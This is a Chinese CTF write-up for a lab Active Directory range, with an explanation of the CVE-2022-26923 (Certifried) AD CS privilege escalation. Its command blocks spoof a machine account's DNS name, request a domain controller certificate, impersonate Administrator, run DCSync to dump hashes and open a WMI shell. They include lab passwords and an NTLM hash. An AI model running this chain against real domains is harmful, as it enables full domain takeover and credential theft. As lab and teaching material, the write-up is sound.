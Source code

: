 <!-- https://blog.csdn.net/longlangci/article/details/131686439 -->
网鼎 2022 半决赛靶场 flag04

- 更改 DNS Host Name。

```ps1
# 方法一, 如果用方法一后面的Test2都要改为Test1, 当前脚本使用的是方法二即 Test2用户
# 执行powershell将之前创建的机器账号Test1的DNS Host Name为域控的XR-DC01.xiaorang.lab并删除SPN。
$searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]'')
$searcher.filter = '(&(objectClass=computer)(sAMAccountName={0}$))' -f "Test1"
$obj = [ADSI]$searcher.FindAll().Path
$spn = @()
$obj.servicePrincipalName | % { $spn += $_ }
$dns = $obj.dNSHostName.ToString()
$spn | % { $obj.servicePrincipalName.Remove($_) }
$obj.dNSHostName = "xr-dc01.xiaorang.lab"
$obj.SetInfo()

# 方法二
# 通过certipy-ad创建一个机器账号Test2，并且设置DNS Host Name为域控的 XR-DC01.xiaorang.lab。
pip3 install certipy-ad
proxychains certipy account create -u lixiuying@xiaorang.lab -p winniethepooh -dc-ip 172.22.15.13 -user Test2 -pass Test1234 -dns 'XR-DC01.xiaorang.lab'
```

- 用该机器账户向 XR-CA 请求证书。

```sh
# 申请域控制器账户的证书, 由于 Test2 的 dNSHostName 属性值已被修改为 xr-dc01.xiaorang.lab，因此以该账户申请证书时，将为我们颁发域控制器的计算机账户的证书。
proxychains certipy req -u Test2\$@xiaorang.lab -p Test1234 -target 172.22.15.18 -ca "xiaorang-XR-CA-CA" -template Machine
proxychains certipy auth -pfx xr-dc01.pfx -dc-ip 172.22.15.13 -debug # 遇到 KDC_ERR_PADATA_TYPE_NOSUPP 错误，显示 KDC 不支持 PADATA 类型（预认证数据）, Kerberos 预身份验证失败。用方法二
```

```sh
# 方法二  KDC 不支持 PADATA 类型时
certipy cert -pfx xr-dc01.pfx > cert.pem

# 密码为Test1234
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

# 在远程桌面机器上复制 PassTheCertificate 和  cert.pfx 后执行
PassTheCertificate.exe -CertPath .\cert.pfx -CertPassword Test1234 -MachineAccount Test3$ -MachinePassword Test1234 -Target "CN=XR-DC01,OU=Domain Controllers,DC=xiaorang,DC=lab"

# kali: 配置 hosts
sudo vi /etc/hosts
172.22.15.35 XR-0687.xiaorang.lab
172.22.15.13 XR-DC01.xiaorang.lab

proxychains impacket-getST xiaorang.lab/Test3\$:Test1234 -dc-ip 172.22.15.13 -spn cifs/XR-DC01.xiaorang.lab -impersonate Administrator

export KRB5CCNAME=Administrator.ccache
proxychains impacket-wmiexec -k XR-DC01.xiaorang.lab  -dc-ip 172.22.15.13 -no-pass
```

```sh
# 方法一 支持 PADATA 类型时
## 通过颁发的证书对KDC进行PKINIT Kerberos身份验证，并获取域控制器账户的TGT票据。
proxychains4 certipy-ad auth -pfx xr-dc-01.pfx -username XR-DC01\$ -domain xiaorang.lab -dc-ip xr-dc01.xiaorang.lab

## 由于域控制器账户默认对域对象拥有DS-Replication-Get-Changes和DS-Replication-Get-Change-All扩展权限，因此可以通过DCSync转储所有域哈希。
export KRB5CCNAME=xr.dc01.ccache
proxychains4 python3 secretsdump.py -k xiaorang.lab/xr-dc01\$@xr-dc01.xiaorang.lab -no-pass -just-dc
proxychains4 impacket-wmiexec xiaorang.lab/Administrator@xr-dc01.xiaorang.lab -hashes :26b321bde63de24097cd6610547e858b
```

# 介绍 CVE-2022-26923

该漏洞是由于对用户属性的不正确获取,允许低权限用户在安装了 Active Directory 证书服务（AD CS）的域环境中将权限提升至域管理员。

- Certifried-Active Directory Elevation of Privilege
- 默认情况下，域用户账户可以注册 User 证书模板，计算机账户可以注册 Machine 证书模板。
  两个证书模板都允许执行客户端身份验证。
- 在申请计算机证书时，ADCS 将计算机对象的 dNSHostName 属性的值添加到证书的主题备用名称中。当我们使用证书进行身份验证时，KDC 会尝试将这个 dNSHostName 属性值从证书映射到目标账户。
- 因此，如果我们将某个可控计算机账户（PENTEST01 ＄）的 dNSHostName 值改为与域控制器的计算机账户相同的 dNSHostName 值，那么就意味着我们可以欺骗 AD CS，并最终申请到域控制器的 AD 证书。
